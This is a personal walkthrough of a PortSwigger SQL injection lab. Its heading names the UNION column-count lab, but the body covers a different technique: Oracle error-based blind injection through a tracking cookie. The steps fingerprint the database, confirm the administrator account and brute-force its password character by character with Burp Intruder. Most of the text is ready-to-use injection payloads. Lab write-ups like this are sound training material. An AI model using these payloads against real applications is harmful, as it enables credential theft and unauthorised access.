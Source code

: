 # Lab #3: SQL injection UNION attack, determining the number of columns returned by the query
https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns

Vulnerable parameter - tracking cookie


**End Goals:**
- determine the number of columns returned by the query.


**Analysis:**

1) Prove that parameter is vulnerable 

*Note for Burp: **ctrl + F5** to convert code*

```SQL
''
```
```SQL
' || (select '') || '
```
-> error 500 that means is not a MySQL Database
```SQL
' || (select '' from dual) || ' 
``` 
-> Oracle Database

```SQL
' || (select '' from sametablename) || ' 
```
-> error sametablename don't exist

2) Confirm that the users table exists in the database
```SQL
' || (select '' from users) || ' 
```
-> error 
```SQL
' || (select '' from users where rownum =1) || ' 
```
-> users table exists

3) Confirm that the administrator user exists in the users table
```SQL
' || (select '' from users where username='administrator') || ' 
```
```SQL
' || (select CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual) || ' 
```
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator') || ' 
```
-> Internal server error -> administrator user exists
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='sameuser') || ' 
```
-> 200 response -> user does not exist in database

4) Determine length of password
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and LENGTH(password)>1) || ' 
```
-> 500 Internal Server error response at 1 -> length of password is greater than 1
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and LENGTH(password)>50) || ' 
```
-> 200 response at 50 -> length of password is less than 50

send request to the BurpSuite Intruder --> Attak type "Sniper" Payload type "Numbers"
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and LENGTH(password)>19) || ' 
```
-> 20 characters

5) Output the administrator password

```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substr(password,1,1)='a') || ' 
```
-> If 200 response at a --> a is not the first character of the password

send request to the BurpSuite Intruder -->  Attak type "Sniper" Payload type Brute forcer
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substr(password,1,1)='§a§') || ' 
```
->  ***X*** is the first character of the password

Modify the request on BurpSuite Intruder -->  Attak type "Cluster bomb" first Payload type "Numbers" from 1 to 20 and the second Payload type "Brute forcer"
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substr(password,§1§,1)='§a§') || ' 
```

->  You can also use the ***script.py*** to get the Password 
